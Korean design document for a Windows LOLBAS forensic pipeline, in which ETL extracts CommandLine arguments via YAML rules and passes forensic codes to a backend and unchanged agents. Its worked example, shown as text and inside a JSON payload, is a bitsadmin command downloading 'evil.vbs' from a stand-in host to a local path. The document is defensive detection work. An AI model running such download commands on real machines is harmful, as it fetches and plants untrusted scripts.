


# forensic.md

## 문서 목적

본 문서는 **Windows LOLBAS Forensic Concept Guide** 입니다.
즉, Windows 이벤트 로그의 `CommandLine` 기반 LOLBAS 행위를 어떤 구조로 포렌식 연계할 것인지 정리하는 **개념 출발점 문서**입니다.

이 문서의 핵심은 다음 두 가지입니다.

1. **추출은 ETL 에서 수행한다.**
2. **기존 에이전트 구조를 변경하지 않고, 에이전트 개발량을 줄인다.**

따라서 이 문서는 탐지/추출/연계의 책임을 어디에 둘 것인가를 먼저 정리하고,
그 개념을 후속 문서인 `guide.v2.md`, `guide-etl.v2.md`, `guide-etl-pseudo.v2.md`, `windows-lolbas-rules.v2.yml` 로 연결합니다.

## 문서 관계

- `forensic.md`: 개념 정리, 책임 분리, 전체 연계 구조 정의
- `guide.v2.md`: 보안 담당자가 관리하는 YAML 규격과 룰 작성 기준
- `guide-etl.v2.md`: ETL 과 Backend 간 연계 기준, 전달 계약, 운영 규칙
- `guide-etl-pseudo.v2.md`: ETL 처리 흐름의 의사코드 예시
- `windows-lolbas-rules.v2.yml`: 실제 운영에 사용하는 YAML 룰 파일

즉, 문서의 출발점과 흐름은 아래와 같습니다.

```text
forensic.md
  → 왜 추출 책임을 ETL 에 두는가
  → 왜 기존 Agent 구조를 유지하는가
  → 어떤 값을 Backend 로 넘길 것인가

guide.v2.md
  → 그 구조를 YAML 규격으로 어떻게 선언할 것인가

windows-lolbas-rules.v2.yml
  → 실제 운영에 사용하는 룰 번들

guide-etl.v2.md
  → ETL 과 Backend 가 이 YAML 을 어떻게 해석하고 연계할 것인가

guide-etl-pseudo.v2.md
  → ETL 구현 흐름을 의사코드로 어떻게 이해할 것인가
```

---

# 1. 문제 정의

Windows XML 이벤트 로그에는 프로세스 실행 흔적이 `CommandLine` 로 남습니다.
이 값에는 LOLBAS(Living Off The Land Binaries and Scripts) 악용 행위의 핵심 인자가 그대로 포함되는 경우가 많습니다.

예를 들어 아래와 같은 명령행이 기록될 수 있습니다.

```text
bitsadmin /transfer mydownload http://example.com/download.log:evil.vbs C:\temp\local.vbs
```

이때 중요한 것은 단순히 `bitsadmin.exe` 가 실행되었다는 사실만이 아닙니다.
핵심은 명령행 안에서 실제 포렌식에 필요한 값을 분리하여 추출하는 것입니다.

위 예시에서는 특히 아래 값이 중요합니다.

```text
C:\temp\local.vbs
```

즉, 공격자가 최종적으로 생성하거나 저장하려는 **로컬 대상 파일 경로**가 포렌식 분석의 핵심 추출값입니다.

---

# 2. 핵심 원칙

## 2-1. 추출 책임은 ETL 에 둡니다

이 구조에서 LOLBAS 탐지와 `CommandLine` 인자 추출은 **ETL** 이 수행합니다.
즉, YAML 룰에 정의된 트리거와 정규식에 따라 ETL 이 필요한 값을 뽑아냅니다.

## 2-2. Agent 개발량을 줄입니다

핵심 목표는 **포렌식용 Agent 구조를 바꾸지 않는 것**입니다.

즉,
- Agent 가 YAML 을 직접 읽지 않습니다.
- Agent 가 LOLBAS 탐지 로직을 직접 가지지 않습니다.
- Agent 는 기존처럼 **JOB 코드**를 받아 포렌식을 수행합니다.

이렇게 하면 포렌식 로직 추가 시에도 Agent 수정량을 최소화할 수 있습니다.

## 2-3. Backend 는 JOB 생성 역할만 수행합니다

ETL 이 YAML 기준으로 추출한 값을 Backend 로 전달하면,
Backend 는 해당 **forensic_code + 추출값**을 JOB 코드에 올립니다.

즉, Backend 는 탐지나 정규식 파싱의 주체가 아니라,
**ETL 결과를 기존 JOB 체계에 실어 Agent 로 전달하는 연결 지점**입니다.

## 2-4. 기존 Agent 구조는 변경하지 않습니다

최종적으로 Agent 는 기존과 동일하게 아래만 수행합니다.

- JOB 코드 수신
- JOB 파라미터 확인
- 지정된 포렌식 코드 수행
- 결과 반환

따라서 이 구조는 **기존 Agent 실행 모델을 그대로 유지**합니다.

---

# 3. 전체 구조

## 3-1. Sequence Diagram

이 문서에서 가장 중요한 것은 처리 흐름이므로, Sequence Diagram 이 가장 적합합니다.



## 3-2. Class Diagram

구성요소 간 책임 관계는 아래처럼 볼 수 있습니다.



---

# 4. 책임 분리

## 4-1. 보안 담당자

보안 담당자는 YAML 룰을 관리합니다.
즉, 아래를 YAML 로 선언합니다.

- 어떤 LOLBAS 를 볼 것인가
- 어떤 트리거를 적용할 것인가
- 어떤 필드를 대상으로 파싱할 것인가
- 어떤 값을 추출할 것인가
- 어떤 `forensic_code` 로 Backend 에 전달할 것인가

## 4-2. ETL

ETL 은 YAML 을 해석하여 아래를 수행합니다.

- 이벤트 수집
- 트리거 평가
- `CommandLine` 파싱
- 추출값 정규화
- `forensic_code + extracted_values` 패키징
- Backend 로 전달

즉, **실제 추출의 주체는 ETL** 입니다.

## 4-3. Backend

Backend 는 ETL 이 넘긴 데이터를 받아 다음을 수행합니다.

- `forensic_code` 확인
- 추출값을 JOB 입력값으로 적재
- 기존 JOB 체계에 맞게 Agent 로 전달

## 4-4. Agent

Agent 는 기존 구조를 유지합니다.
즉,
- YAML 룰을 직접 알 필요가 없고
- LOLBAS 정규식을 직접 알 필요가 없으며
- 전달받은 JOB 코드 기준으로만 포렌식을 수행합니다.

---

# 5. 데이터 흐름

ETL 이 Backend 로 전달하는 최소 개념은 아래와 같습니다.

```json
{
  "rule_id": "LOLBAS_BITSADMIN_TRANSFER_V2",
  "forensic_code": "WIN-LOLBAS-BITSADMIN-TRANSFER",
  "extracted_values": {
    "image": "C:\\Windows\\System32\\bitsadmin.exe",
    "job_name": "mydownload",
    "remote_src": "http://example.com/download.log:evil.vbs",
    "local_dst": "C:\\temp\\local.vbs"
  },
  "source_event": {
    "event_id": 4688,
    "commandline": "bitsadmin /transfer mydownload http://example.com/download.log:evil.vbs C:\\temp\\local.vbs"
  }
}
```

이후 Backend 는 이를 JOB 코드에 올리고,
Agent 는 그 JOB 을 받아 기존 방식대로 포렌식을 수행합니다.

---

# 6. 왜 이 구조가 유리한가

## 6-1. Agent 변경이 거의 없습니다

포렌식 연동 요구가 추가되어도,
탐지 로직과 추출 로직은 YAML + ETL 에 집중되므로 Agent 쪽 변경량이 매우 작습니다.

## 6-2. 룰 변경이 쉽습니다

LOLBAS 패턴이 바뀌거나 새로운 도구가 추가되어도,
YAML 수정만으로 대응할 수 있습니다.

## 6-3. ETL 구현도 단순합니다

ETL 에서 복잡한 탐지 엔진을 새로 만들 필요 없이,
**YAML 에 정의된 trigger / parser / output / forensic_code** 를 순서대로 해석하면 됩니다.

즉, ETL 도 복잡한 정책 코드를 많이 갖지 않고,
**정해진 규격을 해석하는 단순한 처리기**로 유지할 수 있습니다.

---

# 7. 후속 문서 연결

## 7-1. guide.v2.md

이 문서는 보안 담당자가 관리할 **YAML 규격 문서**입니다.

주요 내용:
- 공통 스키마
- rule 필드 정의
- `forensic_integration` 정의
- quoted / unquoted CommandLine 대응 기준
- 운영용 YAML 작성 규칙

## 7-2. guide-etl.v2.md

이 문서는 **ETL 과 Backend 연계 기준 문서**입니다.

주요 내용:
- ETL 처리 범위
- Backend 전달 규격
- 상태 코드
- 운영 로그
- 책임 경계

## 7-3. guide-etl-pseudo.v2.md

이 문서는 **ETL 의사코드 문서**입니다.

주요 내용:
- rule loop
- trigger 평가 순서
- regex 추출 흐름
- post_process 적용 순서
- Backend payload 생성 예시

## 7-4. windows-lolbas-rules.v2.yml

이 파일은 **실제 운영용 룰 번들**입니다.

주요 내용:
- bitsadmin
- certutil
- mshta
- regsvr32
- rundll32
- 각 rule 의 `forensic_code` 와 `payload_fields`

---

# 8. 결론

이 문서에서 정리하는 핵심은 아래와 같습니다.

1. **추출은 ETL 에서 한다.**
2. **ETL 은 YAML 정의에 따라 `forensic_code + 추출값`을 Backend 로 보낸다.**
3. **Backend 는 이를 JOB 코드에 올린다.**
4. **Agent 는 기존 구조 변경 없이 JOB 을 받아 포렌식을 수행한다.**
5. **이 구조의 목적은 Agent 개발량을 줄이고, YAML 기반 운영을 가능하게 하는 것이다.**

즉, `forensic.md` 는 단순한 개념 문서를 넘어,
이후 `guide.v2.md`, `guide-etl.v2.md`, `guide-etl-pseudo.v2.md`, `windows-lolbas-rules.v2.yml` 이 모두 출발하는 **아키텍처 기준 문서**입니다.
